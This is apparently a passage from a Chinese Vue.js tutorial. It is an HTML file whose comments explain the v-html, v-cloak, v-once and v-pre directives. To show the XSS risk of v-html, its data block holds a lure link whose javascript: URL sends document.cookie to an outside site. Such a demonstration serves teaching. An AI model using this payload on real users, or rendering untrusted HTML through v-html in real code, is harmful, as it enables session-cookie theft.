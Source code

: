 ```html
		-->
        <p v-html="name">{{name}}言</p>
        <!-- 传递参数到其他网站 -->
        <p v-html="str"></p><hr/>

        <!-- 
            v-cloak 指令（没有值）：
                1.本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
                2.使用 css 配合 v-cloak 可以解决网速慢时页面展示出 {{xxx}} 的问题。
		-->
        <p v-cloak>{{name}}言</p><hr/>

        <!-- 
			v-once指令：
                1.v-once所在节点在初次动态渲染后，就视为静态内容了。
                2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
		-->
        <p v-once>{{name}}言</p><hr/>

        <!-- 
			v-pre指令：
                1.跳过其所在节点的编译过程。
                2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
		-->
        <p v-pre>{{name}}言</p>

    </div>

</body>

<script>
    // 阻止 vue 在启动时生成开发版提示
    Vue.config.productionTip = false;

    const vm = new Vue({
        el: '#root',
        // 数据
        data: {
            name: '<h2>月海</h2>',
            str: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
        }
    });

</script>

</html>
```

![image.png](http://www.yue-hai.top:10300/file/downloadFile?fullFilePath=%2Fhome%2Fyan%2F%E6%A1%8C%E9%9D%A2%2F%E5%86%85%E5%AD%98%2F%E6%96%87%E6%A1%A3%E8%B5%84%E6%96%99%2FTakeDown%2FWeb%2FJS%20%E6%A1%86%E6%9E%B6%2Fattachments%2F2023-07-25-12--50-57-673--fm-SDyg4b9tBVw.png)
